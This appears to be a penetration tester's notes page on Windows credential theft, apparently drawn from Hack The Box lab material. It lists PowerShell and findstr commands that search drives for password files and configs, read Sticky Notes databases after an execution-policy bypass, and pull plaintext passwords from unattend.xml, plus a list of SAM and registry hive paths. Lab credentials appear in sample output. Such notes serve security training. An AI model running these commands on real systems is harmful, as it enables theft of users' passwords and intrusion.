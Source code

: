 # CREDENTIAL THEFT

### Hunting in Files


**Hunting for password files**

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

**xampp configuration files**

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

**search files for users**

```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

**Manually searching for files**

```
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

findstr /si password *.xml *.ini *.txt *.config

findstr /spin "password" *.*
```

**Search File Contents with PowerShell**

```
select-string -Path C:\Users\*.txt -Pattern password

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

where /R C:\ *.config

Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

**Application Configuration Files**

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

**Dictionary Files**

```powershell
gc 'C:\Users\steve\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

## **Sticky Notes Passwords**

This file is located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` and is always worth searching for and examining

```powershell
PS C:\htb> ls

Directory: C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

We can copy the three `plum.sqlite*` files down to our system and open them with a tool such as [DB Browser for SQLite](https://sqlitebrowser.org/dl/) and view the `Text` column in the `Note` table with the query `select Text from Note;`.

![https://academy.hackthebox.com/storage/modules/67/stickynote.png](https://academy.hackthebox.com/storage/modules/67/stickynote.png)

**Viewing Sticky Notes Data Using PowerShell**

```powershell
Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
```

# **Unattended Installation Files**

Unattended installation files may define auto-logon settings or 
additional accounts to be created as part of the installation. Passwords
 in the `unattend.xml` are stored in plaintext or base64 encoded.

### Unattend.xml

Code: xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend"><settings pass="specialize"><component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><AutoLogon><Password><Value>local_4dmin_p@ss</Value><PlainText>true</PlainText></Password><Enabled>true</Enabled><LogonCount>2</LogonCount><Username>Administrator</Username></AutoLogon><ComputerName>*</ComputerName></component></settings>
```

# Other files of interest

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

[**PowerShell credential enumeration**](CREDENTIAL%20THEFT%206fe9f1dfdff64ea59ebec0ac330bea17/PowerShell%20credential%20enumeration%208887b8413741421a8fd45668aeb77015.md)

[Further credential theft](CREDENTIAL%20THEFT%206fe9f1dfdff64ea59ebec0ac330bea17/Further%20credential%20theft%20b3d2bd76bca44910bd37629e83d1324c.md)
